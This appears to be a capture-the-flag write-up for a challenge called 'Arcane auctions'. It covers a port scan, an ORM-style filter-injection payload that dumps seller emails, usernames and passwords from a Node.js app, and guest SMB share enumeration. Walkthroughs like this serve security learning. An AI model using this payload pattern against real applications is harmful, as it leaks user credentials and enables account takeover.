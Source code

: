 # Arcane auctions

### Information gathering

```bash
nmap 83.136.253.25 -p 33921,45204,40465 -sV

PORT      STATE SERVICE     VERSION
33921/tcp open  unknown
40465/tcp open  netbios-ssn Samba smbd 4.6.2
45204/tcp open  http        Node.js (Express middleware)
```


Modify the payload from `exploit.py` to print more information from the users.
New payload:

```python
...
    payload = {
        "filter": {
            "select": {
                "seller": {
                    "select": {
                        "id": True,
                        "email": True,
                        "username": True,
                        "password": True,
                        "gold_balance": True,
                        "createdAt": True
                    }
                }
            }
        }
    }
```

We have users and passwords.

Access to the SMB server by:

```bash
$ smbclient -L localhost -U guest
Password for [WORKGROUP\guest]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	app             Disk      
	IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
	nobody          Disk      Home Directories
SMB1 disabled -- no workgroup available


$ smbclient //localhost/app -U guest

```